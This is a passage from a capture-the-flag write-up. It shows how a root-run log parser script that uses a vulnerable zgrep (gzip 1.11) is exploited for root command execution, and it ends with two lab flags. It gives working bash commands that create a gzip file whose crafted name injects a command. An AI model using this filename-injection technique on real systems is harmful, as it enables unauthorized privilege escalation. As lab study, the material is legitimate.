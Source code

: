 ![[Screenshots/Pasted image 20230323192549.png]]

Seems like we can run `/opt/scripts/parser.sh` as root. Looking at the file we see it takes a directory we specify and read for log files which are gzip archives and see if there are any 500 status requests (to check for server errors inside log files ie /var/log/apache2/access.log.gz).

![[Screenshots/Pasted image 20230323192713.png]]

It is using the `zgrep` binary to grep through the gzip archives. If we look at the version of the zgrep its using, we can see its using version `1.11`

![[Screenshots/Pasted image 20230323192938.png]]

If we do a quick google about `gzip 1.11 CVE` we can see that there is a [RCE vulnerability](https://www.cybersecurity-help.cz/vdb/SB2022040803) regarding this version
- https://www.synopsys.com/blogs/software-security/cyrc-vulnerability-analysis-gzip/

This article goes through over why and how this vulnerability can be exploited to gain command execution using `zgrep`.

Firstly, we need to create 2 gzip achieves, one is a normal file and another with a specially crafted name. We need to place them in a directory and specify this directory as the 1st argument to the script.

```bash
mkdir /tmp/kavi
cd /tmp/kavi
echo 'HTTP/1.1" 500'|gzip > kavi.gz # nromal file
echo 'HTTP/1.1" 500'| gzip > "$(printf '|\n;e id\n#.gz' )" # crafted filename
```

>Here you need to make sure that you include the keyword that the `zgrep` using greps for in the gzip archives which is `HTTP/1.1" 500` in this case. Otherwise, this won't be triggered.

![[Screenshots/Pasted image 20230323194250.png]]

Now finally, we just need to run the script as root.

```
sudo -u root /opt/scripts/parser.sh /tmp/root
```

![[Screenshots/Pasted image 20230323194618.png]]

And we got command execution as root!


HashX{0p3nSSH_RSA_sys@dm!n_k3y}

HashX{D3F!ATE_gz1p_zgr3p_p@tt3rn}